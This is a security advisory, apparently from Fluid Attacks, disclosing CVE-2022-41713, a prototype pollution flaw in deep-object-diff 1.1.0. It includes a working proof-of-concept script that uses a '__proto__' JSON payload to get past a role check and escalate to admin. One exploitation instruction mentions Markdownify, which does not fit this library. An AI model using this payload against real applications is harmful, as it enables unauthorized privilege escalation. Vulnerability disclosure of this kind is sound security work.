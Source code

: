 ```yaml
---
slug: advisories/heldens/
title: deep-object-diff 1.1.0 - Prototype Pollution
authors: Carlos Bello
writer: cbello
codename: heldens
product: deep-object-diff 1.1.0 - Prototype Pollution
date: 2022-10-19 12:00 COT
cveid: CVE-2022-41713
severity: 7.3
description: deep-object-diff 1.1.0    -    Prototype Pollution
keywords: Fluid Attacks, Security, Vulnerabilities, Deep Object Diff, Prototype Pollution
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                       |                                                                    |
| --------------------- | -------------------------------------------------------------------|
| **Name**              | deep-object-diff 1.1.0 - Prototype Pollution                       |
| **Code name**         | [Heldens](https://en.wikipedia.org/wiki/Oliver_Heldens)            |
| **Product**           | deep-object-diff                                                   |
| **Affected versions** | Version 1.1.0                                                      |
| **State**             | Public                                                             |
| **Release date**      | 2022-10-19                                                         |

## Vulnerability

|                       |                                                                                                                             |
| --------------------- | ----------------------------------------------------------------------------------------------------------------------------|
| **Kind**              | Prototype Pollution                                                                                                         |
| **Rule**              | [390. Prototype Pollution](https://docs.fluidattacks.com/criteria/vulnerabilities/390)                                      |
| **Remote**            | Yes                                                                                                                         |
| **CVSSv3 Vector**     | CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:L/A:L                                                                                |
| **CVSSv3 Base Score** | 7.3                                                                                                                         |
| **Exploit available** | Yes                                                                                                                         |
| **CVE ID(s)**         | [CVE-2022-41713](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-41713)                                             |

## Description

Version 1.1.0 of deep-object-diff allows an external attacker to edit
or add new properties to an object. This is possible because the
application does not properly validate incoming JSON keys, thus allowing
the `__proto__` property to be edited.

## Vulnerability

Prototype pollution is a vulnerability that affects JS. It occurs when a
third party manages to modify the `__proto__` of an object. JavaScript first
checks if such a method/attribute exists in the object. If so, then it calls
it. If not, it looks in the object's prototype. If the method/attribute is
also not in the object's prototype, then the property is said to be
undefined.

Therefore, if an attacker succeeds in injecting the `__proto__` property into
an object, he will succeed in injecting or editing its properties.

## Exploitation

To exploit this vulnerability, you must send the following file to a user
to open with Markdownify.

### exploit.js

```js
import { diff, addedDiff, deletedDiff, updatedDiff, detailedDiff } from 'deep-object-diff';

let admin = {name: "admin", role:"admin"};
let user  = {role:"user"};

let normal_user_request    = JSON.parse('{"name":"user","role":"admin"}');
let malicious_user_request = JSON.parse('{"name":"user","__proto__":{"role":"admin"}}');

const create_user = (new_user) => {
    // A user cannot alter his role. This way we prevent privilege escalations.
    if(new_user?.role && new_user?.role.toLowerCase() === "admin") {
        throw "Unauthorized Action";
    }
    user = addedDiff(user, new_user);
    console.log(user?.role);
}

try {
    create_user(normal_user_request);
} catch (error) {
    console.log(error);
}
finally {
    create_user(malicious_user_request);
}
```

## Evidence of exploitation

![Prototype-Pollution](https://user-images.githubusercontent.com/51862990/196747198-91fb55a2-b8b7-4858-8167-2a5dc7c1053c.png)

## Our security policy

We have reserved the CVE-2022-41713 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: deep-object-diff 1.1.0

* Operating System: GNU/Linux

## Mitigation

There is currently no patch available for this vulnerability.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from Fluid Attacks'
Offensive Team.

## References

**Vendor page** <https://github.com/mattphillips/deep-object-diff>

## Timeline

<time-lapse
  discovered="2022-09-05"
  contacted="2022-09-05"
  replied="2022-09-05"
  confirmed=""
  patched=""
  disclosure="2022-10-19">
</time-lapse>
